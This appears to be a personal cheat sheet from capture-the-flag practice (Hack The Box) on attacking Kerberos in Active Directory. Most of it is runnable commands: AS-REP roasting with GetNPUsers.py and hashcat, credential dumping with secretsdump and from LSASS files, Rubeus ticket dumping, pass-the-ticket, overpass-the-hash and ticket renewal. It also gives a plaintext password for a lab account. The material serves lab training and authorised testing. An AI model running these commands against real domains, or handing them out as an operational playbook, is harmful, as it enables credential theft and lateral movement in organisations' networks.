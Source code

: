 Port 88

## Have list of users 
#### identify accounts that do not require Kerberos pre-authentication:
```
GetNPUsers.py -dc-ip 10.129.175.196 -request -usersfile users.txt htb.local/
```
crack hashes:
```
hashcat -m 18200 <hashes-file> /path/to/wordlist
```

---
## Have creds or foothold
#### Dump creds, including NTLM hashes, kerberos tickets, passwords:
```
secretsdump.py corp.local/admin:password@192.168.1.100
```
- requires admin
#### Obtained LSASS dump file and want to extract creds from it:
```
python secretsdump.py -lsass <LSASS-Dump-File>
```

### Rubeus
#### Extract Kerberos tickets (TGT/TGS) for lateral movement
transfer rubeus.exe to windows and run:
```
Rubeus.exe dump
```

#### Extract kerberos/lsass info (similar to dump but more info):
```
Rubeus.exe harvest
```
- requires admin
#### Extracted Kerberos ticket and want to use it to access resources without password (pass-the-ticket):
```
Rubeus.exe ptt /ticket:<base64-ticket>
```

#### Have NTLM hash of user's pw and want to obtain kerberos ticket using the hash:
```
Rubeus.exe asktgt /user:<username> /rc4:<ntlm-hash> /domain:<domain> /dc:<domain-controller>
```
ex:
```
Rubeus.exe asktgt /user:jdoe /rc4:ab1234567890abcdef1234567890abcdef /domain:corp.local /dc:192.168.1.100
```

#### if rubeus dump shows a TGT with a renewable flag set, output example:
  [TGT]  ServiceName              :  krbtgt/EXAMPLE.COM
         PrincipalName            :  user@EXAMPLE.COM
         Realm                    :  EXAMPLE.COM
         StartTime                :  2/24/2024 1:22:40 AM
         EndTime                  :  2/24/2024 11:22:40 AM
         ==RenewTill==                :  3/2/2024 1:22:40 AM
         Flags                    :  ==renewable==, pre_authent
         SessionKeyType           :  aes256_cts_hmac_sha1
         Base64(ticket)           :  YIIEjAYGKwYBB...

can renew the ticket with:
```
Rubeus.exe renew /ticket:YIIEjAYGKwYBB...
```

can pass the ticket with:
```
Rubeus.exe ptt /ticket:YIIEjAYGKwYBB...
```


#### SSH permission denied gssapi-with-mic error
![[Pasted image 20250423154335.png]]
- got ticket but SSH fails with creds
```
sudo ntpdate frizzdc.frizz.htb
```
```
getTGT.py frizz.htb/f.frizzle:'Jenni_Luvs_Magic23' -dc-ip frizzdc.frizz.htb
```
```
export KRB5CCNAME=f.frizzle.ccache
```
![[Pasted image 20250423154451.png]]
- `kinit` works
```
kinit f.frizzle@FRIZZ.HTB
```
```
klist
```
```
ssh f.frizzle@frizz.htb -K
```